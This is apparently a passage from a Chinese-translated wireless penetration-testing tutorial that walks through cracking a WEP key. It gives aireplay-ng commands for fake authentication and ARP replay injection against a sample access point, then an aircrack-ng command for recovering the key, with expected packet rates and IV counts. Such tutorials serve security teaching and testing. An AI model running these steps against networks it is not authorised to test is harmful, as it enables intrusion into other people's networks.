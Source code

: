 ```
 aireplay-ng -1 0 -e ganon -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0 

-1 means fake authentication 
0 reassociation timing in seconds 
-e ganon is the wireless network name 
-a 00:14:6C:7E:40:80 is the access point MAC address 
-h 00:0F:B5:88:AC:82 is our card MAC address 
```

或其他针对挑剔接入点的变体：

```
aireplay-ng -1 6000 -o 1 -q 10 -e ganon -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0 

6000 - Reauthenticate every 6000 seconds. The long period also causes keep alive packets to be sent. 
-o 1 - Send only one set of packets at a time. Default is multiple and this confuses some APs. 
-q 10 - Send keep alive packets every 10 seconds. 
```

如果一切顺利，您应该会收到一条消息，说明您已成功关联。如果没有，您将收到一条消息，指示您尚未成功地与无线网络关联，此时您需要重试，但一般来说，如果您按照此处的步骤进行操作，您应该更有可能与目标关联。如果您没有通过欺骗受害者的 MAC 地址成功地与您的无线网络进行关联和身份验证，那么您将无法进入下一步。

现在让我们进入关键时刻，我们将生成或诱导目标网络生成可用于恢复密钥的通信量。这个过程的工作方式是使用 ARP 请求或广播。我们要做的是发送一个 ARP 请求，就像任何普通的网络客户端一样。然而，当这个广播出去寻找一个客户机时，根据设计，接入点会在我们每次发送一个客户机时将其重新广播到网络上。因此，它产生了大量的通信量，这些通信量又被 WEP 密钥加密和保护。由于我们将监听并捕获文件中的流量，如果一切正常，我们将记录使用密钥的大量流量（如果我们有耐心的话），我们可以对这些流量执行破解操作或恢复操作。

要执行注入，我们需要打开另一个控制台并输入：

```
 aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0 
```

它将开始监听 ARP 请求，当它听到一个请求时，`aireplay-ng`将立即开始注入。

您可以通过检查`airodump-ng`屏幕确认您正在注射。数据包应该迅速增加。`#/s`应该是一个合适的数字。然而，“体面”取决于多种因素。典型的范围是每秒 300 到 400 个数据包。它可以低至 100/秒，也可以高至 500/秒。

现在我们已经捕获到一个`.cap`文件的流量，我们现在将尝试从捕获的数据包中检索密钥。为此，我们采取以下措施：

打开另一个新的控制台会话并输入：

```
 aircrack-ng -b 00:14:6C:7E:40:80 output*.cap 

-b 00:14:6C:7E:40:80 selects the one access point we are interested in.  

*.cap selects all files starting with "output" and ending in ".cap". 
```

您可以在生成数据包时运行此操作。在短时间内，将计算并显示 WEP 密钥。64 位密钥需要大约 250000 个 IVs，128 位密钥需要 1500000 个 IVs。请注意，这些值是粗略的指导原则，其他变量可能会影响实际需要收集的流量和 IVs 的数量。

如果该过程成功完成，您将看到以下内容：

![](img/b9affb85-dba9-4dbe-a58e-b201479de225.jpg)
